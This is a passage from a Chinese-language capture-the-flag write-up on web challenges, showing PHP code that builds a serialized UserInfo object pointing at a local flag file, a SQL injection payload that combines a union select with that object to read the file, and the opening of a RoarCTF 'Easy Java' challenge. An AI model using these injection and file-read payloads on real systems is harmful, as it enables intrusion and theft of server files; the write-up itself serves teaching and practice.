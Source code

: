 这里得到了`UserInfo`类的源码,可以以此来构造反序列化的字符串了

另外,注意到, 上面最后的注入结果中的有四个字段, 应该正好能对上`union select`后的四个位置,其中存储序列化字符串的`data`在最后一个

```php
<?php
class UserInfo
{
    public $name = "aaa";
    public $age = 23;
    public $blog = "file:///var/www/html/flag.php";
}
$a = new UserInfo();
$b = serialize($a);
echo $b; 
?>
//运行得到用于反序列化的字符串
//O:8:"UserInfo":3:{s:4:"name";s:3:"aaa";s:3:"age";i:23;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
```

构造payload:

```
view.php?no=3 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:3:"aaa";s:3:"age";i:23;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

查看源码得到编码后的flag,解码即可

<img src="/images/buuctf-web/image-20221018130216720.png" alt="image-20221018130216720" style="zoom:67%;" />



<br>

***

<br>

# [RoarCTF 2019]Easy Java

进来是一个登录页面,下面有个help,点击结果显示找不到文件:

```
java.io.FileNotFoundException:{help.docx}
```
